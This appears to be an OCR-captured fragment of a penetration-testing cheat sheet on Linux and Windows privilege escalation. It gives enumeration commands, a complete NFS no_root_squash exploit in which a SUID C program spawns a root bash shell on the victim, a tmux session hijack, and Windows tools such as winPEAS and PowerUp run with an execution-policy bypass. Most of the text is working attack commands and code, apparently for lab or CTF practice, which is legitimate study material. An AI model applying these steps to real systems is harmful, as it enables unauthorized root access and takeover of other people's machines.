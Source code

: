 - Find capabilities

```bash
getcap -r / 2>/dev/null
```

- Find Crontab

```bash
cat /etc/crontab
```

- Find NFS

```bash
#NFS are stored in here
cat /etc/exports

#enumerating mountable shares of victim
showmount -e <IP>

#mount one of the no_root_squash shares to attacking machine
mkdir /tmp/anynameyouwant
mount -o rw <IP>:/nameofshare /tmp/anynameyouwant

#after that we create nfs.c using nano in attacker machine 
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
#now we compile the c file 
gcc nfs.c -o nfs -w

#add S=SUID permission
chmod +s nfs 

# GO TO VICTIM MACHINE AND NAVIGATE TO SHARE AND EXECUTE THE PROGRAM 
```

- TMUX 

```bash
ps aux | grep tmux #To find the tmux folder where sessions are stored in
export $TERM = xterm #stabilizing the shell 
tmux -S attach <name_of_session> #Make sure you are in the same directory where the session is stored in
```

### Windows privelege escalation

- automated scripts

```bash
winPEAS.exe
windows-privesc-check2.exe
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
```
